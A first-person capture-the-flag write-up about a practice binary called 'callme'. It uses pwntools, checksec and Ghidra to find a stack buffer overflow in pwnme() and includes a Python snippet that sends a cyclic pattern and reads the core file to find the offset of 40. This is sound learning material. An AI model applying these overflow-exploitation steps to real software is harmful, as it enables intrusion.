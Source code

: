 # Challenge 02: callme

Having worked through the first two challenges with some help, I decided that 
this one was going to be "all on my own". I needed to convince myself that I 
understood what was going on and how to solve it. While by no means perfect, I 
accomplished that objective and I am pretty stoked that, with the exception of a 
typo, the exploit worked on the first try. Here's what I did:

I started out by reading the instructions and tried to force myself to slow down 
and understand them, looking for any issues that they may be hinting at between 
the lines. 

I started my exploit script via pwntools:

```bash
pwn tempalate callme > exploit_02.py
```

I then ran through a few of my now normal steps with a new binary... I ran 
`checksec callme` and `rabin2 -I callme` to get a feel for the program. I also 
loaded it up in ghidra to poke around. It took almost no time to find that the 
`pwnme()` function had a similar vulnerability as the prior challenge but I 
noticed that, this time, the call to `fgets()` read in 256 characters... this 
gave me a hint that the solution was not going to necessarily be short.

## Confirming Overflow Parameters

I followed a process nearly idendtical to the prior challenge to confirm the 
overflow and establish the offset parameters. Identically to the prior, the 
offset is `40`. This step is accomplished via the following:

```python
# start the process
io = process(exe.path)
                                                                                 
# send the cyclic
io.sendline(cyclic(256))

# wait for the crash
io.wait()

# read the corefile
core = io.corefile

# read the stack pointer at the time of the crash
stack = core.rsp
info("stack: %#x", stack)

# read 4 bytes from the stack pointer: this is our offset
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("pattern: %r", pattern)
info("offset:  %d", offset)
```
